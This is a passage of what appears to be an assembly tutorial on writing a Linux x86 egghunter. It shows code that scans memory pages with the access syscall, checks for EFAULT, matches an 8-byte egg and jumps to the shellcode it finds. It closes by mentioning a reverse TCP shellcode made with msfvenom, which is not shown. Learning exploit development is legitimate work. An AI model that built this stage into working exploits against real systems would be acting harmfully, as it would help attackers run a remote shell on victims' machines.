 First, we create or next function that will make the syscall.

    next_address :
        inc edx ; the value become 4096 = 0x1000
        pusha ; save the current registers
        lea ebx, [edx + 0x4] ; load the address at the first address of the current page
        mov al, 0x21 ; 0x21 is the heximal value of 33
        int 0x80 ; access syscall


After the syscall, we need to check that the value returned in EAX is not a EFAULT. The EFAULT error is represented by the decimal value 14 as we can see :

    > cat /usr/include/asm-generic/errno-base.h | grep EFAULT
    #define	EFAULT		14	/* Bad address */

Which gives in binary :

    (dec) 14 : (bin) 00001110 

As we known, the return value in case of EFAULT will be in decimal -14 (-EFAULT). its hexadecimal value is obtained with the following steps :

First, we invert the bits of the 14 value which gives 241 :
    
    00001110 => 11110001 = (dec) 241

And finaly, we add 1 to it :

    11110001 + 1 = 11110010 = (dec) 242 = (hex) 0xf2

So to check if the EFAULT value is return, we need to compare EAX with 0xf2.

    cmp al, 0xf2

If the values are equals, we need to go to the next page.
    
    je short next_page

if they are not, we can verify that the value at the current address is equal the our egg (0x90509050). 

    cmp [edx], esi

if they are not equal we can jump to the next address by recurcively calling the next_address function. And if they are equals, we can then check the 4 next bytes of the egg.

    jnz next_address ; jump to the next_address if not equals
    cmp [edx + 0x4], esi ; compare the value of the next 4 bytes with our egg (0x90509050)
    jnz next_address ; jump to the next address if not equals

Finally, if the 8 bytes matched, it means that the egg has been found and we can jump to the shellcode.

    jmp edx

###  <span style="color:#2d8fb3;"> C code  </span>

The final step is to define the shellcode that we want to execute. To do that, we used the msfvenom command line as follows to create a reverse tcp shellcode.
